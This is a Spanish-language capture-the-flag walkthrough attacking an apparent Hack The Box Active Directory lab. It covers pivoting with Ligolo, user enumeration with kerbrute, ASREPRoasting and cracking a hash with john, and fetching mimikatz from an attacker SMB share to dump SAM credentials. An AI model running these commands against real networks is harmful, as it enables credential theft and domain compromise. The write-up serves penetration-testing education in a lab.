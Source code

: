 ```bash
❯ sudo ip route add 192.168.3.0/24 dev ligolo

❯ ping -c1 -w1 192.168.3.203
PING 192.168.3.203 (192.168.3.203) 56(84) bytes of data.
64 bytes from 192.168.3.203: icmp_seq=1 ttl=64 time=169 ms

--- 192.168.3.203 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms  
rtt min/avg/max/mdev = 169.346/169.346/169.346/0.000 ms
```

Tras configurar Ligolo, conseguimos establecer conexión con los tres equipos Windows. Utilizando CrackMapExec, identificamos los nombres de los equipos como DEV, WEB y DC1. Para mayor comodidad y preparación ante posibles ataques futuros, procederemos a añadir las direcciones IP junto con sus nombres de host y el dominio htb.local al archivo /etc/hosts.

```bash
❯ crackmapexec smb 192.168.3.201-203
SMB         192.168.3.201   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:htb.local) (signing:False) (SMBv1:True)
SMB         192.168.3.202   445    WEB              [*] Windows Server 2012 R2 Standard 9600 x64 (name:WEB) (domain:htb.local) (signing:False) (SMBv1:True)  
SMB         192.168.3.203   445    DC1              [*] Windows 10.0 Build 17763 x64 (name:DC1) (domain:htb.local) (signing:True) (SMBv1:False)
❯ tail -n3 /etc/hosts
192.168.3.201 dev.htb.local
192.168.3.202 web.htb.local
192.168.3.203 dc1.htb.local htb.local 
```

Usando `kerbrute` podemos enumerar usuarios hacia el `DC` aplicando fuerza bruta

```bash
❯ kerbrute userenum -d htb.local --dc dc1.htb.local /usr/share/seclists/Usernames/Names/names.txt  
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

>  Using KDC(s):
>  	192.168.3.203:88

>  [+] VALID USERNAME:	 bob@htb.local
>  [+] VALID USERNAME:	 dev@htb.local
```

Después de identificar ambos usuarios, los guardamos en un archivo llamado users.txt. Luego, realizamos un intento de ASREPRoast hacia ambos usuarios utilizando GetNPUsers. Como resultado, obtenemos un hash para el usuario "bob". Utilizando la herramienta "john", procedemos a romper fácilmente el hash de "bob" y así obtener su contraseña.

```bash
❯ impacket-GetNPUsers htb.local/dc1.htb.local -no-pass -usersfile users.txt  
Impacket v0.11.0 - Copyright 2023 Fortra

$krb5asrep$23$bob@HTB.LOCAL:be52854293467eeb1900407ac6fef3ef$af612e3bbe242084e7095bb1bac4a6d6fa5b6607bc348655bd5ab20c057e17c21f785963c03c3207b33ee9a6d6f984ce01cad6e5416826a9fb5327fdf3853cb7c94151251445f533fbdab291d569a68c8ef1a44c807acbb424985f3274d9492656868d3922d25a744c3bbdc4deb543064ba4964175a4238ac1dcff471b890e254526b5bd4836281406cb2c927e26b17288e909be954dd0008b4ce998bc77cfd0795c8f50b56948adf24ab8f9ee9461e80f2e91178c1310fe1f1a8ceaaafe2b8d48393d9d20aeed3bd1966aadcdf2e4309dc1f774b7b6a195fc0a135c782cf2e9ec6b0108f73e  
[-] User dev doesn't have UF_DONT_REQUIRE_PREAUTH set

❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Using default input encoding: UTF-8
```

[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>